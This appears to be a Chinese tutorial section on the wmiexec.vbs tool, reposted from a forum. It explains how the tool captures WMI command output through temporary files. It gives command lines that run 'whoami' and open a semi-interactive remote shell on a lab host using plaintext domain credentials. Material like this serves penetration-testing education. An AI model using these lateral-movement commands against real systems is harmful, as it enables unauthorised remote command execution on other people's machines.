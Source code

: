 # 4.2.2.3 wmiexec.vbs

> 原文：[https://www.zhihuifly.com/t/topic/3425](https://www.zhihuifly.com/t/topic/3425)

#### 4.2.2.3 wmiexec.vbs

wmiexec.vbs 是为了解决 wmic 无法回显命令而开发的一个工具，原理就是把数据先存 到一个临时文件中，在每次读取完执行结果后就自动删除。可以用来回显执行命令的结果和 获取半交互式的 shell

![image](img/c2e4831599978061f540757f0c2dc900.png)

```
cscript wmiexec.vbs /cmd 192.168.19.178 adtest\jeff1 test@123 whoami 
```

![image](img/32b69960a38f63b9dc4c245f3164c3df.png)

```
cscript wmiexec.vbs /shell 192.168.19.178 adtest\jeff1 test@123 
```

![image](img/77bfc250325324e44c9437273065c3ca.png)